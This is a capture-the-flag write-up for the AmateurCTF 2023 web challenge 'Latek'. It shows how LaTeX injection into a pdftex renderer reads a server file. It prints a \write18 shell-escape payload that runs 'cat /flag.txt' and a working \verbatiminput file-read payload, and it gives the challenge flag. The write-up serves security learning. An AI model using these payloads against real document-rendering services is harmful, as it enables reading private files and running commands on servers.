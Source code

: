 ```yaml
---
title: AmateurCTF '23 - Web - Latek
date: '2023-07-18'
tags: ['web', 'amateurctf23', 'latex', 'pdftex']
draft: false
summary: Utilizing Latex to read files from the local system.
---
```


## Challenge Description

bryanguo (not associated with the ctf), keeps saying it's pronouced latek not latex like the glove material. anyways i made this simple app so he stops paying for overleaf.

Note: flag is ONLY at `/flag.txt`

Author: smashmaster

Connection info: [latek.amt.rs](https://latek.amt.rs)

## Solution

Visting the website, we're greeted with the following

![chal](/static/writeups/amateurctf2023/web/latek-0.png)

We can see, that the code is using `pdftex` to render the latex. Let's try to read the flag using the following payload

```latex
\documentclass{article}
\begin{document}
\immediate\write18{cat /flag.txt}
\end{document}
```

![chal](/static/writeups/amateurctf2023/web/latek-1.png)

Well, we can see that `\write18` is blocked. I tried searching for different ways on [hacktricks](https://book.hacktricks.xyz/pentesting-web/formula-doc-latex-injection) and the following payload worked

```latex
\documentclass{article}
\usepackage{verbatim}
\begin{document}
\verbatiminput{/flag.txt}
\end{document}
```

![chal](/static/writeups/amateurctf2023/web/latek-2.png)

Flag: `amateursCTF{th3_l0w_budg3t_and_n0_1nstanc3ing_caus3d_us_t0_n0t_all0w_rc3_sadly}`
